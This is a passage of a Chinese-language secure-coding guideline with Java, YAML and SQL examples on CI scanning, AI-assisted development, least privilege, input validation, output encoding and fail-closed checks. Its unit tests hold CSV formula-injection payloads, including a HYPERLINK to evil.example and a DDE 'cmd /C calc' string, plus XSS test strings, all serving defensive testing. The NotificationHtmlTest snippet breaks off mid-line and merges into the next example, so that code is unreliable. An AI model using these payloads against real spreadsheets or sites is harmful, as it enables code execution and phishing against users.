<!-- ✅ SCG-SDL-001、SCG-SDL-008：SECURITY.md 範本 -->
# 安全政策

## ASVS 等級
本系統處理會員個人資料與訂單資料，依《安全程式碼指引》1.3 節選定 **ASVS 5.0 Level 2**。

## 支援的版本
| 版本 | 是否接受安全修補 |
| --- | --- |
| 3.x | ✅ |
| 2.x | ✅（至 2027-03-31） |
| < 2.0 | ❌ |

## 通報弱點
請勿在公開的 Issue 回報弱點。請寄信至 security@example.com 並附上重現步驟，
我們會在 3 個工作天內回覆，並在修補完成後通知您。
```

```yaml
# ✅ SCG-SDL-002：每個 Pull Request 都執行 SAST、SCA 與秘密掃描，任何一項失敗即阻擋合併
name: security
on:
  pull_request:
  push:
    branches: [main]
permissions:
  contents: read
jobs:
  sast:
    runs-on: ubuntu-latest
    container: semgrep/semgrep:1.180.0
    steps:
      - uses: actions/checkout@3d3c42e5aac5ba805825da76410c181273ba90b1 # v7.0.1
        with:
          persist-credentials: false
      - run: semgrep scan --config p/default --config .semgrep/ --error --metrics=off
  secrets:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@3d3c42e5aac5ba805825da76410c181273ba90b1 # v7.0.1
        with:
          fetch-depth: 0
          persist-credentials: false
      - run: docker run --rm -v "$PWD:/repo" ghcr.io/gitleaks/gitleaks:v8.30.1 git /repo --redact --exit-code 1
  sca:
    permissions:
      contents: read
      security-events: write
      actions: read
    uses: google/osv-scanner-action/.github/workflows/osv-scanner-reusable-pr.yml@a345acffa64b0eaede81a3d9aae6141214d9c8fc # v2.6.0
```

```yaml
# ✅ SCG-SDL-003：.pre-commit-config.yaml，開發者執行 pre-commit install 後，每次 commit 前自動掃描
repos:
  - repo: https://github.com/gitleaks/gitleaks
    rev: v8.30.1
    hooks:
      - id: gitleaks
```

```text
# ✅ SCG-SDL-004：.github/CODEOWNERS，安全敏感的程式碼必須由資安審查小組核准
/src/main/java/com/example/security/      @example-org/appsec-reviewers
/src/main/java/**/auth/                   @example-org/appsec-reviewers
/src/main/resources/application*.yml      @example-org/appsec-reviewers
/.github/workflows/                       @example-org/platform-team @example-org/appsec-reviewers
```

```bash
# ✅ SCG-SDL-005：每週列出開啟中的 Dependabot 弱點警示與已開啟天數，超過時限者送交追蹤（需要 security_events 讀取權限）
gh api --paginate "repos/example-org/order-service/dependabot/alerts?state=open" \
  --jq '.[] | [.security_advisory.severity, .dependency.package.name, .security_advisory.ghsa_id,
               ((now - (.created_at | fromdateiso8601)) / 86400 | floor)] | @tsv' |
awk -F'\t' '($1=="critical" && $4>15) || ($1=="high" && $4>30) || ($1=="medium" && $4>90) {print "逾期:", $0}'
```

```java
// ✅ SCG-SDL-006：修正 IDOR 弱點（SEC-2026-031）時附上回歸測試；修正前此測試會失敗（回傳 200）
@Test
void sec2026_031_userCannotReadAnotherUsersOrder() throws Exception {
    mockMvc.perform(get("/api/orders/{id}", ORDER_OF_BOB).with(user("alice")))
            .andExpect(status().isNotFound());
}
```

（片段：測試方法，完整的授權測試寫法見 4.1。）

#### 🔍 1.3 審查與驗證

- **自動檢查：** 以 `actionlint` 檢查工作流程語法；在 GitHub 的分支保護規則確認 `sast`、`secrets`、`sca` 三個檢查都設為 required；OpenSSF Scorecard 的 `Security-Policy`、`Branch-Protection`、`Pinned-Dependencies` 檢查應為通過。
- **人工審查問題：**
  1. `SECURITY.md` 的 ASVS 等級是否與系統處理的資料相符？處理身分證字號或金融資料卻選 L1，就是錯的。
  2. CI 的安全檢查是否有 `continue-on-error: true` 或 `|| true`？這會讓失敗變成通過。
  3. 修補時限是否有人追蹤？逾期弱點是否有例外核准？
- **AI 常見錯誤：** 產生的工作流程以 `@v4`、`@main` 等可變標籤引用 Action（應以完整 commit SHA 固定，見 15.3）；`actions/checkout` 沒有設定 `persist-credentials: false`，讓權杖留在工作目錄的 `.git/config` 中（zizmor `artipacked`）；把 Semgrep 或 SCA 步驟設為 `continue-on-error: true`；在工作流程中給予 `permissions: write-all`。

### 1.4 AI 輔助開發的責任

AI 程式碼助理大幅加快開發速度，但它產出的程式碼有幾個系統性的問題：訓練資料中充滿過時與不安全的寫法、它傾向「讓程式能跑」而不是「讓程式安全」、它會自信地引用不存在的套件或 API。審查 AI 產出時，審查者必須假設程式碼由一位**熟悉語法但不了解本系統安全需求的新進人員**撰寫。

| 編號 | 等級 | 規則 | 驗證方式 |
| --- | --- | --- | --- |
| `SCG-SDL-007` | 必須 | AI 產生或大幅修改的程式碼必須與人寫的程式碼適用相同的審查與工具檢查；Pull Request 必須標示 AI 協助的範圍，審查者必須依第 20.4 節的流程審查 | 👁 程式碼審查（PR 範本的 AI 勾選欄） |
| `SCG-SDL-009` | 必須 | 不得將機密資料（客戶個資、金鑰、內部系統的連線資訊、未公開的弱點細節）貼入未經公司核准的 AI 服務 | 👁 教育訓練與稽核；🤖 DLP（若公司有部署） |

```markdown
<!-- ✅ SCG-SDL-007：.github/pull_request_template.md 的 AI 與安全勾選欄 -->
## AI 協助
- [ ] 本 PR 沒有使用 AI 產生程式碼
- [ ] 本 PR 有使用 AI 產生程式碼，範圍：`OrderController`、`OrderQuery`（請審查者依安全程式碼指引 20.4 審查）

## 安全檢查（修改安全敏感程式碼時必填）
- [ ] 所有外部輸入都有驗證（SCG-GEN-002）
- [ ] 查詢資料時有檢查擁有者或租戶（SCG-ACL-002）
- [ ] 沒有新增寫死的秘密（SCG-CRY-008）
- [ ] 新增的相依套件已確認存在、維護中、授權相容（SCG-SUP-004）
```

```text
❌ SCG-SDL-009：把正式環境的資料貼進公開的 AI 對話
「請幫我看為什麼這筆資料轉換失敗：
 {"name":"陳大文","idNo":"A123456789","card":"4111111111111111", ...}
 資料庫連線字串是 jdbc:postgresql://10.20.1.5:5432/prod?user=app&password=P@ssw0rd」

✅ SCG-SDL-009：先去識別化，只描述結構
「這段 JSON 轉換失敗，欄位結構如下：name(string)、idNo(10 碼英數)、card(16 碼數字)。
 錯誤訊息是 MismatchedInputException at idNo，可能的原因是什麼？」
```

#### 🔍 1.4 審查與驗證

- **自動檢查：** PR 範本的 AI 勾選欄可用 GitHub Actions 檢查是否有勾選其中一項；若公司有 AI 閘道或 DLP，檢視其攔截紀錄。
- **人工審查問題：**
  1. AI 產生的程式碼是否引用了專案中不存在的類別、方法或設定屬性？（以編譯與測試確認，不要相信程式碼「看起來合理」。）
  2. 新增的相依套件是否真的存在於官方套件庫？名稱是否與知名套件只差一兩個字母？（見 15.2 的套件幻覺）
  3. 程式碼是否關閉了任何安全機制（CSRF、TLS 驗證、輸出編碼）來「解決」錯誤？
- **AI 常見錯誤：** 以 `csrf.disable()`、`verify=False`、`rejectUnauthorized: false`、`v-html`、`bypassSecurityTrustHtml` 等方式「修好」錯誤；在測試中寫死真實格式的金鑰；把例外訊息原樣回傳給使用者。

## 2. 通用安全原則

本章的原則適用於所有語言與框架。後續各章是這些原則在特定技術上的具體做法；遇到本指引沒有涵蓋的情境時，回到本章的原則判斷。

### 2.1 最小權限與預設拒絕

**最小權限**是指每個程式、帳號、權杖只擁有完成工作所需的最少權限。它不能阻止弱點發生，但能決定弱點被利用後的損害範圍：一個只能 `SELECT` 與 `INSERT` 特定表格的資料庫帳號，即使發生 SQL 注入，攻擊者也無法 `DROP TABLE` 或讀取其他系統的資料。

**預設拒絕**是指沒有明確允許的事情一律拒絕。新增的 API 端點忘了設定權限時，預設拒絕的系統會回 403，預設允許的系統則會把資料公開出去。

| 編號 | 等級 | 規則 | 驗證方式 |
| --- | --- | --- | --- |
| `SCG-GEN-001` | 必須 | 應用程式連線資料庫、訊息佇列、雲端服務所用的帳號，只能擁有應用程式實際需要的權限；不得使用資料庫擁有者、`sa`、`SYSTEM`、`postgres` 或雲端管理員帳號 | 🧪 權限測試（以應用程式帳號執行 DDL 必須失敗）；👁 程式碼審查 |
| `SCG-GEN-010` | 必須 | 存取控制必須預設拒絕：路由設定在列出所有允許的路徑後，以 `denyAll()` 或 `authenticated()` 收尾；不得以 `anyRequest().permitAll()` 結尾 | 🤖 Semgrep 自訂規則；🧪 未列出路徑回 401／403 的測試 |

```sql
-- ✅ SCG-GEN-001：PostgreSQL 的最小權限帳號。擁有者帳號只用於資料庫遷移，應用程式帳號只有 DML 權限
CREATE ROLE order_owner NOLOGIN;
CREATE ROLE order_app LOGIN PASSWORD 'change-me-from-secret-manager';
CREATE SCHEMA ordering AUTHORIZATION order_owner;
REVOKE ALL ON SCHEMA public FROM PUBLIC;

CREATE TABLE ordering.customer_order (
    id          bigint GENERATED ALWAYS AS IDENTITY PRIMARY KEY,
    customer_id bigint        NOT NULL,
    amount      numeric(12,2) NOT NULL CHECK (amount > 0),
    status      varchar(20)   NOT NULL
);
ALTER TABLE ordering.customer_order OWNER TO order_owner;

GRANT USAGE ON SCHEMA ordering TO order_app;
GRANT SELECT, INSERT, UPDATE ON ordering.customer_order TO order_app;
-- 沒有 DELETE、TRUNCATE、DDL 權限：即使 SQL 注入成功，也無法刪表或改結構
```

```java
// ✅ SCG-GEN-010：先列出允許的路徑，最後以 denyAll() 收尾；新增端點忘了設定時預設被拒絕
package com.example.scg.gen;

import org.springframework.context.annotation.Bean;
import org.springframework.context.annotation.Configuration;
import org.springframework.http.HttpMethod;
import org.springframework.security.config.Customizer;
import org.springframework.security.config.annotation.web.builders.HttpSecurity;
import org.springframework.security.web.SecurityFilterChain;

@Configuration
public class DefaultDenySecurityConfig {

    @Bean
    SecurityFilterChain api(HttpSecurity http) throws Exception {
        http
            .securityMatcher("/api/**", "/actuator/**")
            .authorizeHttpRequests(auth -> auth
                .requestMatchers(HttpMethod.GET, "/api/products/**").permitAll()
                .requestMatchers("/actuator/health/**").permitAll()
                .requestMatchers("/api/admin/**").hasRole("ADMIN")
                .requestMatchers("/api/**").authenticated()
                .anyRequest().denyAll())
            .oauth2ResourceServer(rs -> rs.jwt(Customizer.withDefaults()));
        return http.build();
    }
}
```

```java
// ❌ SCG-GEN-010：最後一條是 permitAll()，任何沒有列出的新端點（例如 /internal/export）都會公開
http.authorizeHttpRequests(auth -> auth
        .requestMatchers("/api/admin/**").hasRole("ADMIN")
        .anyRequest().permitAll());
```

（片段：只截取授權設定。）

#### 🔍 2.1 審查與驗證

- **自動檢查：** 附錄 B.1 的 Semgrep 規則 `scg-anyrequest-permitall` 會找出以 `anyRequest().permitAll()` 結尾的設定；以應用程式帳號連線執行 `DROP TABLE`、`CREATE TABLE` 的測試必須得到 permission denied。
- **人工審查問題：**
  1. `application.yml` 中的資料庫帳號是否和遷移工具（Flyway、Liquibase）使用的帳號分開？
  2. 新增的端點是否落在某條明確的 `requestMatchers` 規則內，而不是靠最後一條規則決定權限？
  3. 服務帳號的雲端 IAM 角色是否使用萬用字元（`*`）權限？
- **AI 常見錯誤：** 範例設定直接使用 `postgres`／`sa` 帳號；為了讓測試通過把 `anyRequest()` 改成 `permitAll()`；授予 `GRANT ALL PRIVILEGES`。

### 2.2 輸入驗證

所有來自信任邊界外的資料都是**不可信的輸入**：HTTP 參數、標頭、Cookie、請求本文、上傳的檔案、訊息佇列的訊息、外部 API 的回應、資料庫中由其他系統寫入的資料、環境變數，甚至是 AI 模型的輸出（見第 16 章）。

輸入驗證的目的是**拒絕不符合預期的資料**，讓後續程式只需處理合法的值。它是縱深防禦的第一層，但**不能取代**輸出編碼與參數化查詢：一個合法的姓名 `O'Brien` 含有單引號，驗證不能拒絕它，SQL 注入的防禦必須靠參數化查詢。

| 驗證層次 | 檢查內容 | 範例 |
| --- | --- | --- |
| 語法（syntactic） | 型別、長度、格式、字元集 | 統一編號是 8 位數字；Email 長度不超過 254 |
| 語意（semantic） | 值在業務上是否合理 | 結束日期晚於開始日期；數量為正數；幣別在支援清單中 |
| 授權（authorization） | 使用者是否能操作這個值指向的資源 | 訂單編號屬於目前使用者（見第 4 章） |

| 編號 | 等級 | 規則 | 驗證方式 |
| --- | --- | --- | --- |
| `SCG-GEN-002` | 必須 | 所有來自信任邊界外的輸入，都必須在伺服器端以**允許清單**驗證型別、長度、格式、範圍或列舉值，驗證失敗時拒絕整個請求，而不是嘗試「修正」輸入 | 🧪 驗證測試（邊界值、非法值）；🤖 Semgrep（Controller 參數缺少 `@Valid`） |
| `SCG-GEN-003` | 必須 | 前端（瀏覽器、App）的驗證只用於改善使用體驗，伺服器端必須重新驗證所有輸入；不得依賴隱藏欄位、停用的按鈕或前端計算的值做安全判斷 | 🧪 以 API 直接送出繞過前端的請求 |
| `SCG-GEN-004` | 應該 | 驗證前應先將輸入正規化：Unicode 以 NFKC 正規化、路徑以 `normalize()` 解析、URL 解碼只做一次；驗證與使用必須針對同一個正規化後的值 | 🧪 單元測試（全形字元、編碼繞過） |
| `SCG-GEN-005` | 不應該 | 不應該以黑名單過濾或移除「危險字元」（例如移除 `<script>`、`'`、`--`）作為主要防禦；黑名單總有遺漏，且會破壞合法資料 | 🤖 Semgrep 自訂規則；👁 程式碼審查 |

```java
// ✅ SCG-GEN-002：以 Bean Validation 宣告允許清單；Controller 以 @Valid 觸發驗證，失敗時回 400
package com.example.scg.gen;

import jakarta.validation.constraints.DecimalMax;
import jakarta.validation.constraints.DecimalMin;
import jakarta.validation.constraints.Digits;
import jakarta.validation.constraints.Email;
import jakarta.validation.constraints.NotBlank;
import jakarta.validation.constraints.NotNull;
import jakarta.validation.constraints.Pattern;
import jakarta.validation.constraints.Size;
import java.math.BigDecimal;

public record CreateInvoiceRequest(
        @NotBlank @Pattern(regexp = "^\\d{8}$", message = "統一編號必須是 8 位數字") String taxId,
        @NotBlank @Size(max = 100) String buyerName,
        @NotBlank @Email @Size(max = 254) String email,
        @NotNull @DecimalMin("0.01") @DecimalMax("9999999.99") @Digits(integer = 7, fraction = 2) BigDecimal amount,
        @NotNull Currency currency) {

    /** 列舉就是最嚴格的允許清單：不在列舉中的值，在反序列化階段就會被拒絕。 */
    public enum Currency { TWD, USD, JPY }
}
```

```java
// ✅ SCG-GEN-002：驗證測試涵蓋合法值與每一種非法值
package com.example.scg.gen;

import static org.assertj.core.api.Assertions.assertThat;

import jakarta.validation.Validation;
import jakarta.validation.Validator;
import java.math.BigDecimal;
import org.junit.jupiter.api.Test;

class CreateInvoiceRequestTest {

    private final Validator validator = Validation.buildDefaultValidatorFactory().getValidator();

    private CreateInvoiceRequest valid() {
        return new CreateInvoiceRequest("12345678", "王小明", "ming@example.com",
                new BigDecimal("100.00"), CreateInvoiceRequest.Currency.TWD);
    }

    @Test
    void acceptsValidRequest() {
        assertThat(validator.validate(valid())).isEmpty();
    }

    @Test
    void rejectsTaxIdWithLettersOrWrongLength() {
        for (String bad : new String[] {"1234567", "123456789", "1234567A", "12345678\n"}) {
            var r = new CreateInvoiceRequest(bad, "王小明", "ming@example.com", BigDecimal.TEN,
                    CreateInvoiceRequest.Currency.TWD);
            assertThat(validator.validate(r)).as(bad).isNotEmpty();
        }
    }

    @Test
    void rejectsNegativeOrTooPreciseAmount() {
        for (String bad : new String[] {"-1", "0", "0.001", "10000000"}) {
            var r = new CreateInvoiceRequest("12345678", "王小明", "ming@example.com", new BigDecimal(bad),
                    CreateInvoiceRequest.Currency.TWD);
            assertThat(validator.validate(r)).as(bad).isNotEmpty();
        }
    }
}
```

> **為什麼 `"12345678\n"` 也要測？** 在 Java 中 `^` 與 `$` 預設只比對整個輸入的開頭與結尾，`String.matches()` 與 Bean Validation 的 `@Pattern` 都要求整個字串符合，所以會拒絕結尾的換行。但在 Python 的 `re.match` 與 JavaScript 中，`$` 可以比對到結尾換行之前（Python）或在多行模式下比對每一行的結尾，詳見 7.2 與 8.2。

```html
<!-- ❌ SCG-GEN-003：價格放在隱藏欄位，伺服器直接採用，攻擊者以瀏覽器開發者工具改成 1 元即可下單 -->
<form method="post" action="/checkout">
  <input type="hidden" name="productId" value="P-1001">
  <input type="hidden" name="price" value="32900">
  <button type="submit">結帳</button>
</form>
```

```java
// ✅ SCG-GEN-003：伺服器只接受商品編號與數量，價格一律由伺服器查詢
package com.example.scg.gen;

import java.math.BigDecimal;

public final class CheckoutService {

    public interface PriceCatalog {
        BigDecimal currentPrice(String productId);
    }

    public record CheckoutCommand(String productId, int quantity) { }

    public record OrderLine(String productId, int quantity, BigDecimal unitPrice, BigDecimal total) { }

    private final PriceCatalog catalog;

    public CheckoutService(PriceCatalog catalog) {
        this.catalog = catalog;
    }

    public OrderLine price(CheckoutCommand cmd) {
        if (cmd.quantity() < 1 || cmd.quantity() > 99) {
            throw new IllegalArgumentException("數量必須介於 1 與 99 之間");
        }
        BigDecimal unit = catalog.currentPrice(cmd.productId());   // 伺服器端的價格，不信任用戶端
        return new OrderLine(cmd.productId(), cmd.quantity(), unit, unit.multiply(BigDecimal.valueOf(cmd.quantity())));
    }
}
```

```java
// ✅ SCG-GEN-004：先以 NFKC 正規化，再以同一個值驗證與使用
package com.example.scg.gen;

import java.text.Normalizer;
import java.util.regex.Pattern;

public final class UsernamePolicy {

    private static final Pattern ALLOWED = Pattern.compile("^[a-z0-9_]{3,20}$");

    private UsernamePolicy() {
    }

    /**
     * 全形的「ａｄｍｉｎ」經 NFKC 正規化後會變成「admin」。若只驗證原字串、卻以正規化後的值存入資料庫，
     * 攻擊者就能註冊一個看起來不同、實際上與 admin 相同的帳號。
     */
    public static String normalizeAndValidate(String raw) {
        String normalized = Normalizer.normalize(raw, Normalizer.Form.NFKC).toLowerCase(java.util.Locale.ROOT);
        if (!ALLOWED.matcher(normalized).matches()) {
            throw new IllegalArgumentException("帳號只能包含 3 到 20 個小寫英文字母、數字或底線");
        }
        return normalized;
    }
}
```

```java
// ✅ SCG-GEN-004：測試全形字元會被正規化後再判斷是否與保留帳號衝突
package com.example.scg.gen;

import static org.assertj.core.api.Assertions.assertThat;
import static org.assertj.core.api.Assertions.assertThatThrownBy;

import org.junit.jupiter.api.Test;

class UsernamePolicyTest {

    @Test
    void fullWidthIsNormalizedBeforeValidation() {
        assertThat(UsernamePolicy.normalizeAndValidate("ａｄｍｉｎ")).isEqualTo("admin");
    }

    @Test
    void rejectsCharactersOutsideAllowList() {
        assertThatThrownBy(() -> UsernamePolicy.normalizeAndValidate("adm in")).isInstanceOf(IllegalArgumentException.class);
        assertThatThrownBy(() -> UsernamePolicy.normalizeAndValidate("admin<script>")).isInstanceOf(IllegalArgumentException.class);
    }
}
```

```java
// ❌ SCG-GEN-005：以黑名單移除危險字串。"<scr<script>ipt>" 移除一次後反而組出 "<script>"，
//    而合法的姓名 "O'Brien" 被改成 "OBrien"
String cleaned = input.replace("<script>", "").replace("'", "").replace("--", "");
```

（片段：黑名單過濾的反例。正確做法是允許清單驗證（`SCG-GEN-002`）＋依情境輸出編碼（`SCG-GEN-006`）＋參數化查詢（`SCG-SQL-001`）。）

#### 🔍 2.2 審查與驗證

- **自動檢查：** 附錄 B.1 的 Semgrep 規則 `scg-requestbody-without-valid` 找出缺少 `@Valid` 的 `@RequestBody` 參數；`scg-blacklist-replace` 找出以 `replace`／`replaceAll` 移除 `<script`、`'`、`--` 的程式碼。
- **人工審查問題：**
  1. 每個 DTO 欄位是否都有長度上限？沒有上限的字串欄位可以被塞入數 MB 的資料。
  2. 價格、折扣、角色、擁有者編號等「應由伺服器決定」的值，是否出現在請求 DTO 中？
  3. 驗證的正規表示式是否以 `^...$` 錨定整個字串？是否可能造成 ReDoS（見 8.2）？
- **AI 常見錯誤：** 只在前端加驗證；DTO 欄位沒有 `@Size`；以 `replaceAll("[<>]", "")` 當作 XSS 防禦；把 `userId`、`price`、`role` 放在請求 DTO 並直接使用。

### 2.3 輸出編碼

注入類弱點（XSS、SQL 注入、命令注入、LDAP 注入）的本質都一樣：**資料被當成程式碼解譯**。防禦的核心是讓資料在進入解譯器之前，依該解譯器的語法編碼或使用參數化介面，讓它永遠只是資料。

同一個字串在不同情境需要不同的編碼。`"` 在 HTML 本文中無害，但在 HTML 屬性中會結束屬性；`'` 在 HTML 中無害，但在 JavaScript 字串中會結束字串。因此編碼必須在**輸出的那一刻、依輸出的情境**進行，而不是在輸入時「預先編碼」後存入資料庫。

| 輸出情境 | 防禦方式 | Java | JavaScript／前端 |
| --- | --- | --- | --- |
| HTML 本文 | HTML 實體編碼 | 樣板引擎自動編碼；`Encode.forHtml` | 框架的文字插值（`{{ }}`、`{}`）；`textContent` |
| HTML 屬性 | 屬性編碼且屬性值加引號 | `Encode.forHtmlAttribute` | 框架的屬性繫結 |
| JavaScript 字串 | JavaScript 編碼；更好的做法是改用 `data-*` 屬性傳值 | `Encode.forJavaScript` | 避免動態產生 script |
| URL 參數 | 百分比編碼 | `Encode.forUriComponent` | `encodeURIComponent`、`URLSearchParams` |
| URL 本身（`href`、`src`） | 驗證通訊協定只能是 `https:`（或 `http:`） | `URI` 解析後檢查 scheme | 見 9.1 |
| SQL | 參數化查詢（**不是**編碼） | `PreparedStatement` | 見第 10 章 |
| 作業系統命令 | 不經 shell 的參數陣列 | `ProcessBuilder(List)` | `execFile`、`spawn` 不設 `shell` |
| CSV／試算表 | 公式前綴跳脫 | 見 `SCG-GEN-007` | 同左 |

| 編號 | 等級 | 規則 | 驗證方式 |
| --- | --- | --- | --- |
| `SCG-GEN-006` | 必須 | 輸出到解譯器（HTML、JavaScript、URL、CSS、SQL、命令列、LDAP、XPath）的資料，必須依輸出情境使用框架的自動編碼、經過驗證的編碼函式庫或參數化介面；不得自行撰寫編碼函式，也不得在輸入時預先編碼後儲存 | 🤖 FindSecBugs `XSS_SERVLET`、Semgrep；🧪 以 `<script>`、`"onmouseover=` 等測試輸出 |
| `SCG-GEN-007` | 必須 | 匯出 CSV 或試算表時，以 `=`、`+`、`-`、`@`、Tab、CR 開頭的儲存格必須加上前置單引號（`'`），並以雙引號包住含逗號、引號、換行的儲存格，防止公式注入（CSV injection） | 🧪 單元測試 |

```java
// ✅ SCG-GEN-006：在伺服器端產生 HTML 片段時（例如 Email 內容），依情境使用 OWASP Java Encoder
package com.example.scg.gen;

import org.owasp.encoder.Encode;

public final class NotificationHtml {

    private NotificationHtml() {
    }

    public static String orderShipped(String customerName, String trackingNo) {
        return "<p>親愛的 " + Encode.forHtml(customerName) + " 您好：</p>"
                + "<p><a href=\"https://track.example.com/?no=" + Encode.forHtmlAttribute(Encode.forUriComponent(trackingNo))
                + "\">查詢貨態</a></p>";
    }
}
```

```java
// ✅ SCG-GEN-006：測試以攻擊字串確認輸出被編碼
package com.example.scg.gen;

import static org.assertj.core.api.Assertions.assertThat;

import org.junit.jupiter.api.Test;

class NotificationHtmlTest {

    @Test
    void encodesNameAndTrackingNumber() {
        String html = NotificationHtml.orderShipped("", "\" onclick=\"alert(1)");
        assertThat(html).doesNotContain("，屬性情境中的 " 仍可跳出屬性
static String escape(String s) {
    return s.replace("<", "&lt;").replace(">", "&gt;");
}
```

（片段：自行撰寫編碼函式的反例。）

```java
// ✅ SCG-GEN-007：CSV 儲存格的公式注入防護
package com.example.scg.gen;

public final class CsvCell {

    private CsvCell() {
    }

    public static String escape(String value) {
        if (value == null) {
            return "";
        }
        String v = value;
        if (!v.isEmpty() && "=+-@\t\r".indexOf(v.charAt(0)) >= 0) {
            v = "'" + v;                                   // 讓試算表把它當成文字，而不是公式
        }
        if (v.contains(",") || v.contains("\"") || v.contains("\n") || v.contains("\r")) {
            v = "\"" + v.replace("\"", "\"\"") + "\"";
        }
        return v;
    }
}
```

```java
// ✅ SCG-GEN-007：測試常見的公式注入載荷
package com.example.scg.gen;

import static org.assertj.core.api.Assertions.assertThat;

import org.junit.jupiter.api.Test;

class CsvCellTest {

    @Test
    void neutralizesFormulaPrefixes() {
        assertThat(CsvCell.escape("=HYPERLINK(\"https://evil.example\",\"點我\")")).startsWith("\"'=");
        assertThat(CsvCell.escape("+1+cmd|' /C calc'!A0")).isEqualTo("'+1+cmd|' /C calc'!A0");
        assertThat(CsvCell.escape("@SUM(A1:A9)")).isEqualTo("'@SUM(A1:A9)");
    }

    @Test
    void keepsNormalValuesAndQuotesSeparators() {
        assertThat(CsvCell.escape("王小明")).isEqualTo("王小明");
        assertThat(CsvCell.escape("台北市, 信義區")).isEqualTo("\"台北市, 信義區\"");
    }
}
```

#### 🔍 2.3 審查與驗證

- **自動檢查：** SpotBugs＋FindSecBugs 的 `XSS_SERVLET`、`XSS_JSP_PRINT`；Semgrep `p/default` 的 XSS 規則；前端見 9.x 的 ESLint 規則。
- **人工審查問題：**
  1. 資料庫中是否存在 `&lt;`、`&amp;` 等「已編碼」的資料？這代表有人在輸入時編碼，輸出時會被重複編碼或在其他情境（例如 JSON API、報表）出錯。
  2. 匯出功能（CSV、Excel）是否處理公式前綴？匯出的內容是否可能包含其他使用者輸入的資料？
  3. 以字串組合 HTML、JSON、XML、SQL、命令的地方，是否都改用對應的安全 API？
- **AI 常見錯誤：** 自行撰寫 `escapeHtml` 只處理 `<>`；以 `String.format` 組合 JSON（應使用 Jackson 等序列化器）；匯出 CSV 時只處理逗號不處理公式。

### 2.4 失敗安全與資源上限

程式出錯時的行為也必須安全。**失敗安全（fail closed）**是指發生例外、逾時或無法判斷時，選擇拒絕而不是放行。授權服務逾時就放行、簽章驗證拋例外就當作驗證通過，都是常見的嚴重錯誤。OWASP Top 10:2025 新增的 A10「例外狀況處理不當」即在處理這類問題。

**資源上限**是另一種失敗安全：所有由外部控制大小的東西（請求大小、上傳檔案、分頁筆數、陣列長度、JSON 深度、正規表示式的輸入）都必須有上限，否則一個請求就能耗盡記憶體或 CPU（CWE-770，2025 CWE Top 25 第 25 名）。

| 編號 | 等級 | 規則 | 驗證方式 |
| --- | --- | --- | --- |
| `SCG-GEN-008` | 必須 | 安全檢查（驗證、授權、簽章、憑證、風險評估）發生例外、逾時或回傳非預期結果時，必須拒絕操作；`catch` 區塊不得回傳「允許」或略過檢查 | 🧪 以 Mock 模擬例外與逾時的測試；🤖 Semgrep 自訂規則 |
| `SCG-GEN-009` | 必須 | 所有由外部控制的資源用量都必須有上限：請求本文大小、上傳檔案大小與數量、分頁筆數、集合長度、字串長度、JSON 巢狀深度、批次處理筆數 | 🧪 超過上限的請求回 400／413；👁 程式碼審查 |

```java
// ❌ SCG-GEN-008：授權服務出錯時「為了不影響使用者」而放行
public boolean canApprove(String userId, String orderId) {
    try {
        return policyClient.check(userId, "approve", orderId);
    } catch (Exception e) {
        log.warn("policy service unavailable, allow by default", e);
        return true;
    }
}
```

（片段：fail open 的反例。）

```java
// ✅ SCG-GEN-008：例外與逾時一律拒絕，並記錄安全事件
package com.example.scg.gen;

import java.time.Duration;
import java.util.concurrent.CompletableFuture;
import java.util.concurrent.TimeUnit;
import org.slf4j.Logger;
import org.slf4j.LoggerFactory;

public final class ApprovalGuard {

    public interface PolicyClient {
        boolean check(String userId, String action, String resourceId);
    }

    private static final Logger LOG = LoggerFactory.getLogger(ApprovalGuard.class);
    private static final Duration TIMEOUT = Duration.ofMillis(800);

    private final PolicyClient policy;

    public ApprovalGuard(PolicyClient policy) {
        this.policy = policy;
    }

    public boolean canApprove(String userId, String orderId) {
        try {
            Boolean allowed = CompletableFuture.supplyAsync(() -> policy.check(userId, "approve", orderId))
                    .get(TIMEOUT.toMillis(), TimeUnit.MILLISECONDS);
            return Boolean.TRUE.equals(allowed);                // null 或非預期值也視為拒絕
        } catch (InterruptedException e) {
            Thread.currentThread().interrupt();
            LOG.warn("event=authz_error action=approve result=deny reason=interrupted");
            return false;
        } catch (Exception e) {
            LOG.warn("event=authz_error action=approve result=deny reason={}", e.getClass().getSimpleName());
            return false;
        }
    }
}
```

```java
// ✅ SCG-GEN-008：測試授權服務拋例外或逾時時都拒絕
package com.example.scg.gen;

import static org.assertj.core.api.Assertions.assertThat;

import org.junit.jupiter.api.Test;

class ApprovalGuardTest {

    @Test
    void deniesWhenPolicyServiceThrows() {
        var guard = new ApprovalGuard((u, a, r) -> {
            throw new IllegalStateException("503");
        });
        assertThat(guard.canApprove("alice", "O-1")).isFalse();
    }

    @Test
    void deniesWhenPolicyServiceIsSlow() {
        var guard = new ApprovalGuard((u, a, r) -> {
            try {
                Thread.sleep(2_000);
            } catch (InterruptedException e) {
                Thread.currentThread().interrupt();
            }
            return true;
        });
        assertThat(guard.canApprove("alice", "O-1")).isFalse();
    }
}
```

```yaml
# ✅ SCG-GEN-009：Spring Boot 的請求與上傳上限（application.yml）
server:
  tomcat:
    max-http-form-post-size: 1MB      # 表單本文
    max-swallow-size: 2MB
  max-http-request-header-size: 16KB
spring:
  servlet:
    multipart:
      max-file-size: 10MB             # 單一檔案
      max-request-size: 20MB          # 整個 multipart 請求
```

```java
// ✅ SCG-GEN-009：分頁筆數由伺服器限制上限，超過即拒絕
package com.example.scg.gen;

import jakarta.validation.constraints.Max;
import jakarta.validation.constraints.Min;
import jakarta.validation.constraints.Size;
import java.util.List;

public record SearchRequest(
        @Size(max = 100) String keyword,
        @Min(0) @Max(10_000) int page,
        @Min(1) @Max(100) int size,
        @Size(max = 20) List<@Size(max = 30) String> tags) {
}
```

#### 🔍 2.4 審查與驗證

- **自動檢查：** 附錄 B.1 的 Semgrep 規則 `scg-catch-returns-true` 找出在 `catch` 區塊中 `return true` 的方法；以 `curl` 送出超過上限的請求，確認回 400 或 413，而不是 500 或成功。
- **人工審查問題：**
  1. 每個呼叫外部服務的安全檢查，在逾時、5xx、連線失敗時的結果是什麼？
  2. `size`、`limit`、`pageSize` 參數是否有上限？有沒有「傳 -1 代表全部」的設計？
  3. 批次 API（一次送多筆）是否限制了筆數？
- **AI 常見錯誤：** `catch (Exception e) { return true; }`；`@RequestParam int size` 沒有上限；以 `findAll()` 一次載入整張表。

### 2.5 業務邏輯與並行安全

